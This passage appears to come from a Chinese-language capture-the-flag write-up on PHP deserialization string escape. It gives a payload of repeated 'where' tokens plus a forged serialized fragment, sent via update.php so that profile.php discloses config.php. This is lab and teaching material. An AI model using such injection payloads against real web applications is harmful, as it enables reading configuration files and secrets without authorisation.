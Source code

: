 

<img src="https://i-blog.csdnimg.cn/blog_migrate/a58c2afc7041fd501c1570920ac544e5.png" alt="" style="max-height:147px; box-sizing:content-box;" />


因为多出来了一个字符 变成了 34 所以需要多一个where 进行逃逸到这里 就完全结束了

## 做题

来重新做题

我们通过 register.php注册

然后再update.php中进行抓包

payload

```css
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```



然后发包

访问profile.php



<img src="https://i-blog.csdnimg.cn/blog_migrate/289f32c37c1988a37c97c1de4522d533.png" alt="" style="max-height:84px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/4dd517f78e65867551f2369093a3eaeb.png" alt="" style="max-height:278px; box-sizing:content-box;" />